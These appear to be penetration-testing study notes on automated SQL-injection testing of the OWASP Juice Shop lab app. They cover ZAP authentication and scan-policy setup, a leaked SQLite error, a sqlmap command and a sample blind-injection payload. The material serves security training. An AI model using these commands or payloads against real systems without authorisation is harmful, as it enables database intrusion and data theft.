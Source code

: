 # Automated Attacks

### 1. Importance

Automating vulnerability scans helps speed up the testing process and catch common issues quickly. Manual testing should still be used for logic flaws and complex scenarios.

---
### 2. Configure ZAP Authentication

- **Set up authentication** early for effective navigation with valid credentials.
    
- Right-click your target site > Add to Context > Configure the context:
    
    - Change auth type from **Manual Authentication** to **JSON-based Authentication** (since Juice Shop uses JSON for login).
        
    - Provide the **Login URL** and set correct JSON keys:
        
        ```json
        {
          "email": "user@example.com",
          "password": "secret"
        }
        ```
        
- After configuring, ZAP will allow you to **run Spider as an authenticated user**.
    
---
### 3. Understanding the Backend vs Frontend

- Some search requests (like `/search?q=...`) may appear **only in proxy history**, not in the frontend.
    
- That indicates it’s a **backend endpoint**, not just JavaScript-rendered UI behavior — perfect for injection testing.

-  While paths after `#` is processed by the frontend, not the server. It will not appear in ZAP's history.

---
### 4. Create a SQLI Scan Policy

- Open ZAP settings with `Ctrl + P` → Add new policy → Name it `SQLI`.
    
- Set all categories to `OFF`:
    
    - `Apply OFF → Threshold to All Rules → Go`
        
- Go to **Injection > SQL Injection** → Set to `Medium` threshold and default strength.
    
---
### 5. Launch SQLI Scan

- Right-click the suspicious request (e.g., `/rest/products/search?q=test`)
    
- Start an **Active Scan** using your custom `SQLI` policy.
    
- Leave **Advanced Options** disabled if you don’t see your custom policy.
    
---
### 6. Detecting SQL Injection

- ZAP may return the response below with `500 Internal Server Error` from the backend — indicating unsanitized input in a SQL query:
    
```http
{  
  "error": {  
	"message": "SQLITE_ERROR: near \"'%'\": syntax error",  
	"stack": "Error: SQLITE_ERROR: near \"'%'\": syntax error",  
	"errno": 1,  
	"code": "SQLITE_ERROR",  
	"sql": "SELECT * FROM Products WHERE ((name LIKE '%test'%' OR description LIKE '%test'%') AND deletedAt IS NULL) ORDER BY name"  
  }  
}
```

---
### 7. Exploiting with SQLMap

- Save the request from ZAP to `.raw` file (e.g., `rest-search.raw`)
    
- Run SQLMap:
    
    ```bash
    sqlmap -r rest-search.raw --dbms sqlite --level 3
    ```
    
- If injection isn’t found at default level, increase `--level` and `--risk`.
	- But don't set the level from the first try

#### Example Output:

```plaintext
[CRITICAL] All tested parameters do not appear to be injectable
[WARNING] HTTP error 500 encountered
```

After increasing to `--level 3`, SQLMap identified the injection point.

#### Example Output:

```
GET parameter 'q' is vulnerable. Do you want to keep testing the others (if any)? [y/N]
sqlmap identified the following injection point(s) with a total of 145 HTTP(s) requests:
---
Parameter: q (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: q=') AND 2976=2976 AND ('HJXc' LIKE 'HJXc
---

```

---
### 8. Reporting

- Take screenshots of:
            
    - Detected SQL errors
        
    - SQLMap results
        

These will be valuable **evidence** for your final report.